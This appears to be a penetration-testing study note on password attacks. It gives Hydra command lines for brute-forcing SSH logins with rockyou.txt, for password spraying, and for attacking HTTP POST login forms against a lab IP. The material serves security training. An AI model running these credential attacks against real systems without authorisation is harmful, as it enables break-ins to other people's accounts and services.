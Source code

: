 
# PASSWORD ATTACKS

## Attacking Network Services Login

### Common SSH and RDP Services Using THC Hydra

- Popular wordlist: `rockyou.txt`
- Always start with:
  - `nmap -p-`
  - `nmap -sV` to identify interesting ports
- Prepare `rockyou.txt` since it is compressed:
  ```bash
  gzip -d rockyou.txt.gz
  ```

### Hydra Syntax
```bash
hydra -l <username> -P /usr/share/wordlists/rockyou.txt -s <port> <protocol>://<IP>
```
**Example**:
```bash
hydra -l george -P /usr/share/wordlists/rockyou.txt -s 22 ssh://192.168.50.201
```

- You can enumerate for usernames or attack built-in accounts (e.g. `root`, `Administrator`).

---

## Password Spraying

- Single password tested against a variety of usernames.
- For password spraying to work, usernames must exist in the wordlist.
- Appending to a wordlist:
  ```bash
  echo -e "<name>\n<name>\n<name>" | sudo tee -a /usr/share/wordlists/dirb/others/name.txt
  ```

- Hydra syntax:
  ```bash
  hydra -L /usr/share/wordlists/dirb/others/name.txt -p "<password>" <service>://<IP>
  ```

- Discovered passwords can be leveraged against other systems to detect password reuse.

**Warning**: Dictionary attacks generate a lot of traffic and can destabilize production systems or trigger security alerts.

**Notes**:
- `-p` vs `-P`: Single password vs password list.
- `-l` vs `-L`: Single username vs username list.

---

## HTTP POST Login Attacks

- Required when login is through a web server.
- Many web services have default accounts (e.g. `admin`).

### Steps:
1. Use Burp Suite to capture a POST login attempt.
2. Identify the failed login response text.
3. Use Hydra with HTTP POST form:
    ```bash
    hydra -l user -P /usr/share/wordlists/rockyou.txt <IP> http-post-form "/index.php:fm_usr=user&fm_pwd=^PASS^:Login failed. Invalid"
    ```

- `^PASS^` is the password placeholder.

